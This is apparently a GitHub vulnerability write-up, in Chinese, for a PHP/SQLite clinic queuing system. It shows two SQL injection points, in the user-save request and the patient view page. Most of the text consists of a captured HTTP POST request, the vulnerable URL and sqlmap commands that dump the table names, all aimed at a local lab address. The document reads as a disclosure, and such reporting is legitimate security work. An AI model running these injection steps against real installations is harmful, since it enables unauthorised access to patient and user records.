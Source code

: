 # Clinic-Queuing-System
Clinic Queuing System Vulnerability exploitation
# 注入点1
功能点：Users->Add New

输入所有信息save并用burpsuite抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/2.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/3.png)
数据包
```
POST /php-sqlite-cqs/LoginRegistration.php?a=save_user HTTP/1.1
Host: 192.168.17.1
Content-Length: 143
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.17.1
Referer: http://192.168.17.1/php-sqlite-cqs/?page=manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a5r847gtg31fcaj6bs2hk6991v
Connection: close

formToken=%242y%2410%24yN7Wr9kopiTJpbrSGGgaF.2Ufy.K9X2Sw1jaHwM1Z3HWM%2Fb.LYgwm&user_id=&fullname=yy&username=yy&password=123456&type=1&status=0
```

Sqlmap命令
```python
py .\sqlmap.py -r .\1.txt -p user_id –tables
```

user_id参数存在sql注入，成功注入到tables
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/4.png)

# 注入点2
点击 +Add Record，填写好信息，save
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/5.png)
功能点：Patient List->view patient
点击view patient之前打开burpsuite工具进行抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/6.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/7.png)
把抓到的数据包放进sqlmap工具里。

漏洞url
```
http://192.168.17.1/php-sqlite-cqs/?page=view_patient&id=23
```
Sqlmap命令
```python
py .\sqlmap.py -r .\1.txt -p id --tables –batch
```
id为sql注入参数，成功注入到tebles
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/8.png)
